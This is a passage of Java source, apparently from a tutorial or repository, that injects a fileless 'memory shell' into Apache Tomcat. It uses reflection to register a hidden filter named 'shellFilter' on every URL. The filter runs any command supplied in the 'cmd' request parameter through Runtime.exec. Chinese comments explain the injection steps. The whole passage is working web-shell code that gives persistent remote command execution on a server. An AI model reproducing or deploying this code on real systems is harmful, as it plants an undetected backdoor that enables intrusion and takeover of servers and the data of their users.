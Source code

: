 ```java
        //生成FilterDef
        FilterDef filterDef = new FilterDef();
        filterDef.setFilterName("shellFilter");
        filterDef.setFilter(getFilter());
        filterDef.setFilterClass(getFilter().getClass().getName());
        //生成ApplicationFilterConfig,并添加到filterConfigs
        Constructor<?>[] constructor = ApplicationFilterConfig.class.getDeclaredConstructors();
        constructor[0].setAccessible(true);
        try {
            ApplicationFilterConfig config = (ApplicationFilterConfig) constructor[0].newInstance(o, filterDef);
            Field filterConfigsField;
            try {
                filterConfigsField = o.getClass().getDeclaredField("filterConfigs");
                filterConfigsField.setAccessible(true);
                HashMap<String, ApplicationFilterConfig> filterConfigs = (HashMap<String, ApplicationFilterConfig>) filterConfigsField.get(o);
                filterConfigs.put("shellFilter", config);
                //生成FilterMap,并添加到FilterMaps
                FilterMap filterMap = new FilterMap();
                filterMap.setFilterName("shellFilter");
                filterMap.addURLPattern("*");
                filterMap.setDispatcher(DispatcherType.REQUEST.name());
                //得到FilterMaps对象
                Field filterMapField = o.getClass().getDeclaredField("filterMaps");
                filterMapField.setAccessible(true);
                Object object = filterMapField.get(o);
                //FilterMaps对象是一个ContextFilterMaps类,而该类是StandardContext的私有内部类,无法直接强制转换,通过反射得到其add方法来添加FilterMap.
                Class<?> cl = Class.forName("org.apache.catalina.core.StandardContext$ContextFilterMaps");
                Method m = cl.getDeclaredMethod("addBefore", FilterMap.class);
                m.setAccessible(true);
                m.invoke(object, filterMap);
            } catch (NoSuchFieldException | ClassNotFoundException | NoSuchMethodException e) {
                throw new RuntimeException(e);
            }

        } catch (InstantiationException | IllegalAccessException | InvocationTargetException e) {
            throw new RuntimeException(e);
        }
        resp.getWriter().println("inject done");

    }
    public Filter getFilter(){
        return new Filter() {
            @Override
            public void init(FilterConfig filterConfig) {

            }

            @Override
            public void doFilter(ServletRequest request, ServletResponse response, FilterChain chain) throws IOException {
                if (request.getParameter("cmd") != null) {
                    Runtime.getRuntime().exec(request.getParameter("cmd"));
                    response.getWriter().println("exec cmd with "+request.getParameter("cmd"));
                }else {
                    response.getWriter().println("shellFilter inject");
                }
            }

            @Override
```